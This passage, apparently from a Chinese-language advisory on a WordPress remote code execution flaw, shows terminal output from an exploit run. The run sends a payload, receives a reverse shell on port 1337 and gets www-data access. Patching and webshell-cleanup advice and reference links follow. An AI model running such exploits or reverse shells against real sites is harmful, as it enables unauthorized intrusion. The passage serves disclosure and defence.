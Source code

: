 	
	[*] Sure you want to get a shell on the target 'http://wp-host/wordpress/' ? [y/N] y
	
	[*] Guess I can't argue with that... Let's get started...
	
	[+] Connected to the target
	
	[+] Payload sent successfully
	
	[+] Payload executed!
	
	[*] Waiting for the target to send us a reverse shell...
	
	Listening on [0.0.0.0] (family 0, port 1337)
	Connection from [192.168.57.3] port 1337 [tcp/*] accepted (family 2, sport 39232)
	bash: cannot set terminal process group (10408): Inappropriate ioctl for device
	bash: no job control in this shell
	www-data@xenial:/$ id
	id
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	www-data@xenial:/$ exit
	exit
	exit
	
	Exiting...


视频中有相关利用成功的演示。演示结果如下（详细请看视频，文中结尾处有）：
<center>
![](http://storage1.imgchr.com/FpLsP.png)
</center>

## 修复建议

1. 即时关注[wordpress中文官方](https://cn.wordpress.org)，官方发布补丁，第一时间修复该漏洞

2. 推荐使用河马查杀软件<http://www.shellpub.com>等对网站webshell进行查杀,及时清理网站后门。
<center>
![](http://storage1.imgchr.com/FpvdS.png)
</center>
3. 安装相关防护软件，如主机waf，或者云防护([网站卫士](http://wangzhan.360.com)、[加速乐](https://www.yunaq.com/))；如使用阿里云主机，可开启阿里云防护。


## 漏洞演示视频及参考资料
<center>
<iframe height=498 width=510 src="http://player.youku.com/embed/XMjc0MjA3MjE5Ng==" frameborder=0 "allowfullscreen">  </iframe>
</center>

1. [https://www.youtube.com/watch?v=ZFt_S5pQPX0](https://www.youtube.com/watch?v=ZFt_S5pQPX0)  
2. [知乎wordpress讨论帖](https://www.zhihu.com/question/20747854)
3. [百度百科-远程代码执行](http://baike.baidu.com/item/%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C)
